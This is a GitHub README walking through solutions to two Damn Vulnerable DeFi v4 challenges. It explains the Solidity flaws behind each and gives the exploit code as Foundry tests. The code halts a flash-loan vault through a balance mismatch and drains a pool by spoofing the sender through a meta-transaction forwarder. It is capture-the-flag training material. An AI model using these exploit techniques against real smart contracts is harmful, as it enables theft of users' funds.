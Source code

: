 # damn-vulnerable-defi

Here I solve Damn Vulnerable DeFi v4 challenges: https://www.damnvulnerabledefi.xyz/

In the explanations below, I assume that you are familiar with contracts.

## 1. Unstoppable

### Challenge Overview

There's a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.
To catch any bugs before going 100% permissionless, the developers decided to run a live beta in testnet. There's a monitoring contract to check liveness of the flashloan feature.
Starting with 10 DVT tokens in balance, show that it's possible to halt the vault. It must stop offering flash loans.

Contracts:
      UnstoppableVault.sol - main logic.
      UnstoppableMonitor.sol - monitoring if vault is functional
      
### Vulnerability Analysis

In the UnstoppableVault.sol contract, we have a flashLoan function, where the core functionality is implemented. If we break this function, the vault will stop giving loans.

There are 3 checkings before the function starts executing the loan

      if (amount == 0) revert InvalidAmount(0); // fail early
      if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
      uint256 balanceBefore = totalAssets();
      if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

This is the critical part. If we succeed in making the function always fail one of those checks, the vault will stop giving loans.
The only checking that is not dependent on function parameters is the third one. 

      if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

This check creates a strict requirement that the vault's accounting system always match the actual token balance. 

### Solution

By simply sending DVT tokens to the contract balance, we will successfully break the vault!

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
        token.transfer(address(vault), 1);
    }


## 2. Naive receiver

### Challenge Overview

There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract. 
A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.
All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.

Contracts:
      NaiveRecevierPool.sol - The main pool that enables flash loans  
      FlashLoanReceiver.sol - The victim borrower contract that will be drained
      BasicForwarder.sol - Enables meta-transactions through an EIP-712 system
      Multicall.sol - Allows batching multiple function calls into one transaction

### Vulnerability Analysis

So, we need to drain 1010 WETH from the pool and borrower contract. In NaiveReceiver.sol, we have the flashLoan function, which implements the core loan functionality. It calls the borrower's onFlashLoan() function, and here, we have our first critical security problem.

    function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        assembly {
            // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }

        if (token != address(NaiveReceiverPool(pool).weth())) revert NaiveReceiverPool.UnsupportedCurrency();

        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        WETH(payable(token)).approve(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

The onFlashLoan() function only checks if the caller is the pool, but it doesn't check if the transaction initiator is the actual owner of the contract. This means that anyone can call the transaction on the owner's behalf, and here is the solution to the first part of our challenge. As the fee of the loan is 1 ETH, we can drain the borrower's balance by simply calling the loan function 10 times on the owner's behalf. Now, all 1010 ETH are on the contract's balance and belong to the pool deployer.
We also need to drain the pool's balance. If we look closer to withdraw function, we'll see that the function does not check if the receiver is the initiator of the withdrawal. 

        // Reduce deposits
        deposits[_msgSender()] -= amount;
        totalDeposits -= amount;

        // Transfer ETH to designated receiver
        weth.transfer(receiver, amount);
    }

So we can put our address as the receiver. But there is a problem here. We, as msg.sender, don't have any balance in the pool's accounting. If we look closer at how _msgSender() function retrieves the initiator's address, we'll find the second security problem!

    function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:]));
        } else {
            return super._msgSender();
        }
    }

Here, if _msgSender() got the request from trustedForwarder and it has msg.data appended to it, it will return the address appended to the request. So here, we can simply initiate a withdrawal request through Forwarder and append the deployer's address to it. The withdraw function will receive the deployer's address and will transfer all the funds to the specified receiver!

### Solution

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_naiveReceiver() public checkSolvedByPlayer {

        uint8 numberOfCalls = 11;

        // Create an array of encoded flashLoan calls
        bytes[] memory encodedCalls = new bytes[](numberOfCalls);

        for(uint8 i = 0; i < 10; i++) {
            // Encode the call to flashLoan
            encodedCalls[i] = abi.encodeWithSignature(
                "flashLoan(address,address,uint256,bytes)",
                address(receiver),
                address(weth),
                0,
                ""
            );
        }

        // Encode the call to withdraw
        encodedCalls[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_RECEIVER + WETH_IN_POOL, payable(recovery))), 
            bytes32(uint256(uint160(deployer)))
        );

        // Encode the multicall data
        bytes memory multicallData = abi.encodeCall(pool.multicall, encodedCalls);

        // Create the request
        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: gasleft(),
            nonce: forwarder.nonces(player),
            data: multicallData,
            deadline: 1 days
        });

        // Hash the request
        bytes32 requestHash = keccak256(abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(request)
            )
        );

        // Sign the request
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        // Execute the transaction
        forwarder.execute(request, signature);
    }

